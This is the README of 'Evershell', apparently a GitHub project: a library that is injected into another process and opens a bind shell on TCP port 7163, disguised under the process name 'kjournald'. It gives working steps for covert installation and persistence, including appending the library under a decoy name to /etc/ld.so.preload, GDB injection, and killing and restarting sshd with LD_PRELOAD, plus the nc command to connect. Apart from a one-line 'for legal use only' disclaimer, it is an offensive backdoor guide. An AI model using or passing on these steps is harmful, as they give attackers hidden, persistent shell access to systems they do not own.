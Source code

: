 Evershell
=========
Injected as a library into another process, evershell listens on a TCP port
(7163 by default) and every time it gets a connection, double-forks a shell
and sets the shell's stdio to the connection.  The shell's name (i.e.
`argv[0]`) is set to `kjournald` by default.

For legal use only.

Configuration
-------------
Almost none.  The listen port and the shell's name are configured with the
preprocessor macros `PORT` and `SHELLNAME`, respectively, near the top of the
file.  The defaults will probably work fine in most cases.

Installation
------------
How to get a library loaded into a "normal" process is can get very OS-specific
and on Linux, can even be distro-specific.  Below are a few ways to do it.
Pull requests with more are welcome.

### `/etc/ld.so.preload`
On platforms which support it, libraries listed in `/etc/ld.so.preload` will
be loaded into all processes.  On Linux this means systemd because obviously
it's a good idea to have a dynamically-linked, injectable systemd.

Example, assuming evershell has been put in `/usr/lib/libinit.so.4`:
```bash
echo /usr/lib/libinit.so.4 >> /etc/ld.so.preload
```

### Via GDB
See https://magisterquis.github.io/2018/03/11/process-injection-with-gdb.html

### Via `LD_PRELOAD`
Set the `LD_PRELOAD` environment variable to the path to the library and start
a normal, long-running process.

Example, assuming evershell is called `libmath.so.4`:
```bash
pkill -9 sshd && LD_PRELOAD=libmath.so.4 /usr/sbin/sshd

Connection
----------
For the most part, it should be as simple as
```bash
nc -v <TARGET> 7163
```
